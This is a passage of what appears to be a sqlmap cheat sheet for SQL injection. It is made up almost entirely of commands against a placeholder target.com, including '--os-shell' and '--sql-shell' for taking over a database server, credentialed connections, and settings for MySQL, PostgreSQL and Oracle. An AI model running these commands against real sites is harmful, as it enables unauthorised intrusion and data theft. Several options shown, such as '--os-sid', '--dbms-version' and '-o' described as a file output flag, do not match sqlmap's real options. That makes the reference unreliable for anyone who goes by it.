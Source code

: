 ### OS Shell
```bash
# Get OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# SQL shell
sqlmap -u "http://target.com/page.php?id=1" --sql-shell

# Custom database shell
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql --sql-shell
```

## Database-Specific Options

### MySQL
```bash
# Specify MySQL database
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql

# MySQL with specific version
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql --dbms-version=5.7

# MySQL with custom credentials
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql --dbms-cred=root:password
```

### PostgreSQL
```bash
# PostgreSQL database
sqlmap -u "http://target.com/page.php?id=1" --dbms=postgresql

# PostgreSQL with specific version
sqlmap -u "http://target.com/page.php?id=1" --dbms=postgresql --dbms-version=12
```

### Oracle
```bash
# Oracle database
sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle

# Oracle with SID
sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle --os-sid=ORCL
```

## Output and Session Management

### Output Options
```bash
# Save output to file
sqlmap -u "http://target.com/page.php?id=1" -o output.txt

# Verbose output
sqlmap -u "http://target.com/page.php?id=1" -v 3

# Quiet mode
sqlmap -u "http://target.com/page.php?id=1" -v 0

# Batch mode (no interaction)
sqlmap -u "http://target.com/page.php?id=1" --batch
```
